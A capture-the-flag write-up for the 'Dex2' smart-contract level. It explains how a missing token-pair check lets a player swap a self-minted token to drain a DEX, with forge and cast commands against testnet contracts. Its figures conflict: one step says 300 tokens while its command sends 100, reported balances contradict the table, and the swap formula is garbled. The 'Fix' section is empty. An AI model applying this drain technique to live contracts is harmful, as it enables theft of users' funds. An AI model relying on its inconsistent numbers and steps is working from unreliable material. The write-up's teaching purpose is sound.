 # Dex2

This level requires you to exploit the DexTwo contract, a subtly modified version of the previous Dex contract, in a different manner. Your goal is to drain all balances of token1 and token2 from the DexTwo contract to complete the level.

You begin with 10 tokens each of token1 and token2 and DexTwo contract initially holds 100 tokens each of token1 and token2.

## Vulnerability

We will notice a missing line:

```bash
require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
```

This line is responsible for validating that swapping is only allowed between the two token addresses defined by the contract. Since this requirement is absent in `DexTwo`, we are allowed to swap any tokens, including ones we create. This is the key to draining the`DexTwo` contract.

## Attack

| Dex Two |      |      |Player|      |      |
|---------|------|------|------|------|------|
| token1  |token2|  BTN |token1|token2|  BTN |
| 100     |  100 |  100 |   10 |   10 |  300 |
| 0       |  100 |  200 |  110 |   10 |  200 | swap(token1, BTN)
| 0       |    0 |  300 |  110 |  110 |  0   | swap(token2, BTN)

```bash
function getSwapAmount(address from, address to, uint256 amount) public view returns (uint256) {
    return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
}

# It calculates the amount of token2 that will be returned when x amount of BTN is swapped. The formula is rearranged to solve for x, which gives x = 200 BTN. This means that to get all 100 token2 from the Dex, 200 BTN need to be swapped.
# 100 = (x * 100)/200 (200 tokens were minted by the contract)
```

According to the formula in `get_swap_amount()`, to get all the token2 from the Dex2, we need `100 = (x * 100)/200 - x = 200 BTN`. Therefore, we need to swap 200 BTN to get 100 token2. Once this is done, here's how the final balance table will look:

1. Deploy `DeployDex2Attack.sol`.

```bash
forge script script/DeployDex2AttackToken.s.sol --rpc-url $ALCHEMY_RPC_URL --private-key $PRIVATE_KEY --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY -vvvv --legacy

# https://sepolia.etherscan.io/address/0x4142F5632A070eE59FBe6C31C46f3194eEf007B2

# At $CONTRACT_ADDRESS=0x4142F5632A070eE59FBe6C31C46f3194eEf007B2
# balanceOf 0x64Dd9D94818A2CA2e95c31B084aeF0CC92e86dA2 = 500
```

2. Send 300 BTN from `Dex2AttackToken` to `Dex2`.

```bash
cast send $CONTRACT_ADDRESS "transfer(address,uint256)" $DEX2_ADDRESS 100 --rpc-url $ALCHEMY_RPC_URL --private-key $PRIVATE_KEY --legacy

# At $CONTRACT_ADDRESS
# balanceOf 0x64Dd9D94818A2CA2e95c31B084aeF0CC92e86dA2 = 0

# At Dex2 contract
# balanceOF
# token address (BTN): 0x4142F5632A070eE59FBe6C31C46f3194eEf007B2
# Dex2 contract address (DEX2_ADDRESS): 0x53173d243A267FccFB4905c61A1dfc6a9EB6e2c6
# equals 500
```

3. In `Dex2AttackToken`, approve `Dex2 address` to spend 300 BTN and enable it to perform the swap later.

```bash
cast send $CONTRACT_ADDRESS "approve(address,uint256)" $DEX2_ADDRESS 300 --private-key $PRIVATE_KEY --rpc-url $ALCHEMY_RPC_URL --legacy
```

4. Execute the swap of both tokens.

```bash
#swap(BTN, token1, 100);
#swap(BTN, token2, 200);

cast send $DEX2_ADDRESS "swap(address,address,uint256)" $CONTRACT_ADDRESS 0x048D9e8B3fD36dc840fD6E86d4de6b42C22274C7 100 --private-key $PRIVATE_KEY --rpc-url $ALCHEMY_RPC_URL --legacy

cast send $DEX2_ADDRESS "swap(address,address,uint256)" $CONTRACT_ADDRESS 0x60Be6F80AC4C5eCAEF36745637e0A629732C2c1C 200 --private-key $PRIVATE_KEY --rpc-url $ALCHEMY_RPC_URL --legacy
```

## Fix
